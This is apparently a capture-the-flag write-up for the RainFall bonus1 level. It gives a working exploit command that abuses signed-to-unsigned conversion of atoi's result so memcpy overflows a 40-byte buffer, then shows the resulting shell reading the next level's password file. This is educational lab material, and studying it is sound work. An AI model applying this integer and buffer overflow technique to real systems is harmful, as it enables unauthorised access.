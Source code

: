 # Walkthrough

### Solution
```
./bonus1 -2147483637 $(python -c "print 'A' * 40 + '\x46\x4c\x4f\x57'")
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```  

## Explanation

### Execution

```
bonus1@RainFall:~$ ./bonus1 
Segmentation fault (core dumped)
bonus1@RainFall:~$ ./bonus1 hello
```  
Program takes 1 argument and does nothing.  

### Disassembly

You can view the commented asm code [here](Ressources/assembly.asm)  
You can view the asm code translated to C [here](source.c)  

We need argv[1] to be = 0x574f4c46, but because of the check of if nb > 9, return, we can't input it.  
However, cmpl compares the atoi result as an **unsigned int**. We can use a signed int, which will be <=9, and when converted to unsigned will be big enough to overflow our buffer (40 bytes) + the nb we need (0x574f4c46) in memcpy.  
In memcpy, we need to take 44 bytes from argv[2] (buffer size (40 bytes) + the nb we want to overwrite (0x574f4c46), which is 4 bytes).  

> If we convert -2147483637 * 4 to unsigned int, we get 44.
```
./bonus1 -2147483637 $(python -c "print 'A' * 40 + '\x46\x4c\x4f\x57'")
```
